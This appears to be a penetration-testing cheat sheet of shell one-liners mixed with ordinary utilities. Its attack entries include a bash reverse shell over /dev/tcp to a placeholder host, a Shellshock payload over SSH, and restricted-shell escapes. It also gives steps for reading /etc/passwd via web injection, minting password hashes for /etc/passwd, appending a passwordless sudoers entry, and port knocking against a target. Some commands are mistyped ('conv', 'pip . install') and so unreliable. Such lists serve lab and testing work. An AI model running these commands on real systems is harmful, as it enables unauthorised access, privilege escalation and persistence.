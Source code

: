 Proper bash shell:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Print all users in /etc/passwd from web injection:

```shell
cat /etc/passwd | awk -F':' '{print $1}'
```

Replace each ',' with a newline:

```shell
echo -n 'test:test,test:test,test:test' | sed 's/,/\n/g'
```

Print all text between |> and <| on a new line

```shell
grep -shzoP "(\|>)(.*?)(<\|)" response | sed  "s/|>/ /g" | sed "s/<|/\n/g"
```

Port knocking:

```shell
nmap $TARGET_IP -p 7469,8475,9842 -r --max-retries 0 --max-parallelism 1 -sT --scan-delay 200ms --max-rtt-timeout 200ms -Pn
```

```shell
nc -z $TARGET_IP PORT1 PORT2 PORT3
```

Grep UTF16 file:
#utf16 #utf-16
```bash
conv -f utf-16 -t utf-8 $UTF16_FILENAME.log | grep -v "SELECT_LINES_NOT_CONTAINING"
```

Generate user password for use in /etc/passwd

```shell
openssl passwd -1 -salt salt password
```

Get all users with history:

```bash
find /home -name .bash_history -exec wc -l {} \; 2>/dev/null | sort | grep -v "^0"
```

Find all "test.py" files

```bash
find / -name "test.py" -type f 2>/dev/null
```

List all sudo commands for user:

```shell
sudo -l
```

Start HTTP server

```shell
python3 -m http.server
```

```shell
python -m SimpleHTTPServer
```

```shell
ruby -run -e httpd path/to/your/project -p 80
```

```shell
php -S 0.0.0.0:80
```

Escape profile restricted bash accounts with SSH access

```shell
ssh $USERNAME@$TARGET_IP -t "bash --noprofile"
```

```shell
echo os.system("/bin/bash")
```

Other methods:

```shell
ssh $USERNAME@$TARGET_IP -t "/bin/sh" or "/bin/bash"
```

```shell
#shellshock
ssh $USERNAME@TARGET_IP -t "() { :; }; /bin/bash"
```

Login using SSH key file

```bash
ssh -i private_id_rsa USER@$TARGET_IP -t "bash --noprofile"
```

Check for ports that are opened on other network devices

```bash
netstat -antup
```

```bash
ss -tunlp
```

---

Add current directory to the PATH variable:

```shell
export PATH=$PWD:$PATH
```

or use with SUDO:

```shell
sudo PATH=$PWD:$PATH /path/to/executable
```

---

Reverse shell to port 4444:
---
```shell
bash -c "bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1"
```

Assign user an id in case of NFS / mount
---
```shell
usermod -u $U_ID $USERNAME
```

Assign an id to a group
---
```shell
groupmod -g $GROUP_ID $GROUP_NAME
```

Add user to sudo
---
```shell
usermod -aG sudo $USERNAME
```

---

Add user to SUDOers:
---
```bash
echo "$USERNAME  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

---


Connect using SSH in case of old/weird encryption:
---

```shell
ssh -oHostKeyAlgorithms=+ssh-dss $USER@$TARGET_IP
```

or

```shell
ssh -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa $USER@$TARGET_IP
```

---
**Python install from setup.py**
---

```shell
pip . install
```
